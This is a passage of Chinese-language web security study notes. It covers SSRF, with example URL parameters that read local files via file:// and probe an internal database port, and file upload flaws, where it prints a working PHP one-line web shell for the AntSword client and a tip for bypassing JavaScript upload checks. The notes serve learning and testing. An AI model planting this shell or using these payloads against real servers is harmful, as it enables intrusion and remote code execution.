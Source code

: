 二次确认、验证码、token

## SSRF

**Sever-Side Request Forgery**

* 服务器端请求伪造

* 由攻击者构造请求，由服务器端发起请求

利用参数url的内容，执行file协议或访问其他url

**file协议**

```
?url=file:///C://Users//lenovo//Desktop//shell.php
# 可以访问机器上的文件
```

**篡改网址**

```
?url=192.168.58.1:3306
# 测试访问数据库
```

**防护**

* 限制请求端口只能为web端口
* 限制不能访问内网ip



## 文件上传漏洞

![mind-map.png](https://github.com/c0ny1/upload-labs/blob/master/doc/mind-map.png?raw=true)

![sum_up.png](https://github.com/c0ny1/upload-labs/blob/master/doc/sum_up.png?raw=true)

**目的是getshell**

### 一句话木马

```php
<?php @eval($_POST["wmdx"]); echo "nice"?>
```

**AntSword**

* 连接前清除缓存库

### JS检测绕过

**有弹窗**

**后缀不被允许**

* **直接关闭JS**
